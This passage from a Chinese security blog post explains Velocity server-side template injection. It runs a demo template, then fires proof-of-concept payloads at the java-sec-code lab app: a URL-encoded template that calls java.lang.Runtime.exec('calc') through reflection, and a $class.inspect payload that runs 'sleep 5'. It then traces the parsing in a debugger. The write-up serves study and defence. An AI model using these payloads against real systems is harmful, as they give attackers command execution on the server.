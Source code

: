 

模板文件：src/main/resources/test.vm

```
Hello World! The first velocity demo.
Name is $name.
Project is $project
```

输出结果：

```
final output:
Hello World! The first velocity demo.
Name is Victor Zhang.
Project is Velocity
java.lang.UNIXProcess@12f40c25
```

通过 VelocityEngine 创建模板引擎，接着 velocityEngine.setProperty 设置模板路径 src/main/resources、加载器类型为file，最后通过 velocityEngine.init() 完成引擎初始化。

通过 VelocityContext() 创建上下文变量，通过put添加模板中使用的变量到上下文。

通过 getTemplate 选择路径中具体的模板文件test.vm，创建 StringWriter 对象存储渲染结果，然后将上下文变量传入 template.merge 进行渲染。

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200907173719066-1030164230.png)

这里使用java-sec-code里面的SSTI代码：

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200907191011269-128540012.png)

poc：

```
http://127.0.0.1:8080/ssti/velocity?template=%23set(%24e=%22e%22);%24e.getClass().forName(%22java.lang.Runtime%22).getMethod(%22getRuntime%22,null).invoke(null,null).exec(%22calc%22)

$class.inspect("java.lang.Runtime").type.getRuntime().exec("sleep 5").waitFor() //延迟了5秒
```

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200907192034956-1485346370.png)

参照《[白头搔更短，SSTI惹人心！](https://xz.aliyun.com/t/7466)》简单进行调试

在最初的Controller层下断点，来追踪poc的解析过程：

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200908095030110-571936567.png)

（template -> instring）进入 Velocity.evaluate 方法：

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200908112550988-1581803954.png)

（instring -> reader）继续跟进 evaluate 方法，RuntimeInstance类中封装了evaluate方法，instring被强制转化(Reader)类型。

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200908112728222-13161049.png)

跟进 StringReader 方法查看详情：
![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200908113941507-617770245.png)

